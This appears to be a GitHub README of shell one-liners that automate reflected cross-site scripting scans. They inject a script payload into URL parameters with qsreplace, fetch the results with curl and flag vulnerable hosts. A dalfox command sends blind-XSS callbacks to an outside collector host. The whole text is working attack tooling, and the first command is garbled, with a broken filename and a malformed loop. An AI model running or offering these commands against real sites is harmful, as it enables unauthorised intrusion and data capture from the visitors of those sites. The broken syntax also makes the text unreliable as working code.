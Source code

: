 # xss-automation-script

1. cat urls.txt | gf xss | qsreplace '"><script>confirm(1)</script>' | tee combinedfuzz.json && cat combined fuzz.json | while read host do ; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo "$host \033[0;31mVulnerable\n" || echo "$host \033[0;32mNot Vulnerable\n"; done


1. cat urls.txt | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | qsreplace '"><script>confirm(1)</script>' | tee combinedfuzz.json && cat combinedfuzz.json | while read host do ; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo "$host \033[0;31mVulnerable\n" || echo "$host \033[0;32mNot Vulnerable\n"; done


1. cat php.txt | kxss | sed 's/=.*/=/' | sed 's/URL: //' | dalfox pipe -b https://rvsingh.xss.ht
